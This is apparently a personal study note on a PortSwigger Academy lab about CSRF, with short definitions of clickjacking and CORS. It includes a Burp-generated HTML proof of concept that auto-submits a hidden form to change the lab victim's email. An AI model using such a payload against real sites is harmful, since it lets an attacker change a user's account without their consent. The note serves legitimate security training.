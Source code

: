 # CSRF, Clickjacking and CORS
- CRSF (Cross Site Request Forgery) is explained in this link [here](https://portswigger.net/web-security/csrf).
- CSRF token is used to defend against CSRF and more information about how it works [here](https://portswigger.net/web-security/csrf/tokens)
- [Clickjacking](https://portswigger.net/web-security/clickjacking) differs from a CSRF attack in that the user is required to perform an action such as a button click whereas a CSRF attack depends upon forging an entire request without the user's knowledge or input. 
- CORS (Cross Origin Resource Sharing) is a browser mechanism which enables controlled access to resources located outside of a given domain. It extends and adds flexibility to the same-origin policy (SOP). More about CORS and its vulnerabilities [here](https://portswigger.net/web-security/cors).

## CSRF vulnerability with no defenses
 - To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. 
### Enumeration
- First we need to check for the 3 conditions for CSRF to happen : 

|Condition|Screenshot|
|---|---|
|Relevant Action|User can update email![[Pasted image 20220721182606.png]]|
|Cookie Based Session Handling|When attempting to change email address only cookie is used as authentication <br>![[Pasted image 20220721181925.png]]![[Pasted image 20220721181902.png]]|
|No unpredictable request parameters|There does not seem to be any unpredictable parameters. ![[Pasted image 20220721181925.png]]|

### Vulnerability Assessment
- We can use Burp Pro function `Generate CSRF PoC`. Without Burp Pro, we just need to generate the HTML PoC manually.
![[Pasted image 20220721182147.png]]
- We will want the auto-submit script to be enabled so that no-click is required.
![[Pasted image 20220721183734.png]]
- Then simply copy-and-paste the generated PoC into the body of the exploit server.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a980072046df11fc0633c5f00230008.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;super&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
- What this HTML essentially does is create a form with "Submit Request" button and that button will do a POST request to the email change-account page to the parameter value of `wiener@super-user.net`
